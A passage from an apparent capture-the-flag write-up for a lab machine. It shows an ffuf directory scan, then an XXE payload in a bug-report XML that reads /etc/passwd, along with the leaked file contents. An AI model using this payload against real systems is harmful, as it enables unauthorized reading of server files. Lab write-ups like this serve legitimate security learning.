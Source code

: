     OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

# Web

The website is a bug bounty one.

![Website homepage](/media/2021.xx/website bountyhunter_01.png)

We launch a [fuff](https://github.com/ffuf/ffuf) against it, founding a
`db.php` script (which return an empty page).

    :::text
    └─$ ./ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.73.239/FUZZ -e .php -mc 200
    <SNIP>
    db.php                  [Status: 200, Size: 0, Words: 1, Lines: 1]
    index.php               [Status: 200, Size: 25169, Words: 10028, Lines: 389]
    index.php               [Status: 200, Size: 25169, Words: 10028, Lines: 389]
    portal.php              [Status: 200, Size: 125, Words: 11, Lines: 6]

The portal allow to create a new bug report sending a base64 encoded XML to the endpoint.
This looks like an XXE (https://portswigger.net/web-security/xxe) vulnerability.
We modify the XML sent to the endpoint to retrieve `/etc/passwd`.

    :::text
    <?xml  version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
        <bugreport>
        <title>&xxe;</title>
        <cwe>11</cwe>
        <cvss>11</cvss>
        <reward>11</reward>
        </bugreport>

We `urlEncode(Base64(ourPayload))` and send it to the server, getting the file back.

    :::text
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
    systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
    systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
    messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
    syslog:x:104:110::/home/syslog:/usr/sbin/nologin
    _apt:x:105:65534::/nonexistent:/usr/sbin/nologin
    tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
    uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
    tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
    landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin